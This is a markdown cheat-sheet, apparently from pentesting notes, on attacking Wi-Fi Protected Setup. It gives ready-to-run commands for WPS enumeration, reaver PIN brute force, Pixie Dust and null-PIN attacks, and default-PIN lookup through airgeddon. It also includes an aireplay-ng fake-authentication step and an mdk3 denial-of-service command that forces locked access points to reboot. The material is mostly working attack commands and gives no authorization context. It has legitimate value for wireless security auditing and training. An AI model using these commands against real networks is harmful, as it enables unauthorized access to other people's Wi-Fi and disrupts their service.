 ### Enumeration
---
Use `wash` to see if there are WPS-enabled APs:
```sh
wash -i wlan0mon
```
- Listing APs with WPS enabled.
- Scans 2.4GHz by default. Add `-5` to also scan 5GHz networks.
- `WPS` indicates the WPS version. WPSv2 is more resilient towards brute force attacks.
- `Lck` indicates if WPS is locked.

Alternatively, use airodump-ng:
```sh
sudo airodump-ng --wps
```

### Exploitation
---
##### PIN Brute force (Online)
###### Reaver:
```sh
sudo reaver -i wlan0mon -b <AP bssid> -v
```

##### Pixie Dust Attack (Offline)
###### Reaver:
```sh
sudo reaver -i wlan0mon -b <AP bssid> -v -K
```
- `-K` for try running PixieWPS attack.

>[!note]
>If reaver is stuck at `Waiting for beacon from XX:XX:XX:XX:XX:XX` for a very long time, add the channel parameter `-c` to specify the channel of the AP.

If the attack is not working because we are not associated with the AP:
```sh
sudo aireplay-ng --fakeauth 30 -a <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- When running this, run `reaver` with `-A` to avoid reaver associating with the AP.

### Null PIN Attack
---
Some WPS implementation have blank PIN. We can add `-p` for verifying a single PIN. 
``` sh
sudo reaver -b <bssid> -i wlan0mon -v -p ''
```

### Known PINs + Generation Algorithms
---
Some default PINs depend on the first 3 bytes of the BSSID. Use the `airgeddon` project ([v1s1t0r1sh3r3/airgeddon: This is a multi-use bash script for Linux systems to audit wireless networks. (github.com)](https://github.com/v1s1t0r1sh3r3/airgeddon)).
```sh
sudo apt install airgeddon 
```

Loading the default PINs into memory:
```sh
source /usr/share/airgeddon/known_pins.db
```

Check the database with BSSID starting with `AABBCC`
```sh
echo ${PINDB["AABBCC"]}
```
- Try the output PINs. If all not working, try blank PIN.


### Troubleshooting
---
- Always try another Wi-Fi adapter with another chipset when possible.
- Try restarting Reaver if this message pops up: `[!] WPS transaction failed (code: 0x03), re-trying last pin`


For locked WPS, try rebooting the AP with mdk3/mdk4 ([mdk3 | Kali Linux Tools](https://www.kali.org/tools/mdk3/)), a DoS tool.
```sh
mdk3 wlan0mon a -a <AP bssid> -m
```

